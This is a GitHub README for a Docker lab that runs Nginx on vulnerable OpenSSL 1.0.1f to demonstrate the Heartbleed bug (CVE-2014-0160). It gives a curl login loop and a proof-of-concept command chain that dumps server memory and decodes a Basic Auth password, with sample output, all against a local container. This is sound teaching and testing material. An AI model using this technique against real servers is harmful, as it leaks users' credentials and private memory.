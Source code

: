 ## Testing Heartbleed with Nginx Dockerfile

This repository contains **Dockerfile** of **Nginx** with the vulnerable **OpenSSL version (1.0.1f)** for testing **CVE-2014-0160 Heartbleed** Vulnerability.

### Base Docker Image

* debian:latest

### Installation

1. Install [Docker](https://www.docker.com/)
    - Example with Debian: `apt-get install -y docker`

2. Download from public [Docker Hub Registry](https://registry.hub.docker.com/) the debian base image: 
`docker pull debian:latest`

3. Build the image from Dockerfile: `docker build -t heartbleed_nginx_img .`

### Usage

##### Start the Heartbleed+Nginx container

`docker run -i -t -p 1500:443 heartbleed_nginx_img`

##### Testing Heartbleed Vulnerability (CVE-2014-0160) with HTTP Basic Authentication method

1. Download the [Heartbleed-poc Python script](ttps://github.com/sensepost/heartbleed-poc/blob/master/heartbleed-poc.py) (For Testing Purposes Only !). This is a modified version originally by Jared Stafford <jspenguin@jspenguin.org>.
    **Thanks to SensePost for this one.**
2. Open two new Tabs on your current terminal and run :

    - First Tab (Generating **x100 GET requests** using **HTTP Basic Auth** with curl command):
 
        `for loop in {0..100..1}; do curl -X GET -s -i -k -u admin:myP@ssword0MG https://127.0.0.1:1500| grep -E "200"; done`

        
        >HTTP/1.1 200 OK
        >HTTP/1.1 200 OK
        >HTTP/1.1 200 OK
        >HTTP/1.1 200 OK
        >snipp...
    - Second Tab (Generating **x100 Heartbeats(-n 100) requests** and write the memory dump to **"dump.bin"** file, then grab the result from **"Authorization"** field from memory dump and finally decode **Base64** result string to plain text in clear **^^**):

        `python heartbleed-poc.py -f dump.bin -q -n 100 -p 1500 127.0.0.1 && grep -a "^Authorization:" dump.bin | head -n1 | awk -F " " '{print $3}' | tr -d '\n\r' | base64 --decode && echo`

       
        >WARNING: server 127.0.0.1 returned more data than it should - server is vulnerable!
        >... received message: type = 22, ver = 0302, length = 66
        >... received message: type = 22, ver = 0302, length = 925
        >... received message: type = 22, ver = 0302, length = 331
        >... received message: type = 22, ver = 0302, length = 4
        >... received message: type = 24, ver = 0302, length = 16384
       >WARNING: server 127.0.0.1 returned more data than it should - server is vulnerable!
        >snipp...
        >admin:myP@ssword0MG


